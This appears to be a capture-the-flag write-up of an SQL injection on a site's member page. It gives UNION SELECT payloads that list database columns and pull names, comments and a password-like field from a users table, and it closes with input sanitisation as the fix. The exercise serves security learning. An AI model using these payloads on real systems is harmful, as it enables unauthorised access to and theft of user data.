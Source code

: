 ### Where:  

`/?page=member`

### How:  

1. Found `member` page by clicking on "Members" button on the home page
2. Tried to inject SQL in different manners until we've tried a `UNION` attack

    ```SQL
    1 UNION SELECT table_name, column_name FROM information_schema.columns
    ```

    Hmmm... Let us check the `first_name` of every member and by the way... What's `Commentaire`!?

    ```SQL
    1 UNION SELECT first_name, Commentaire FROM users
    ```

    "this password"? Which password!? Perhaps `countersign`?

    ```SQL
    1 UNION SELECT first_name, countersign FROM users
    ```

3. Do the necessary steps described in Flag's `Commentaire` on Flag's `countersign`
4. Found!

### Fixable by:  

1. Properly sanitizing user input
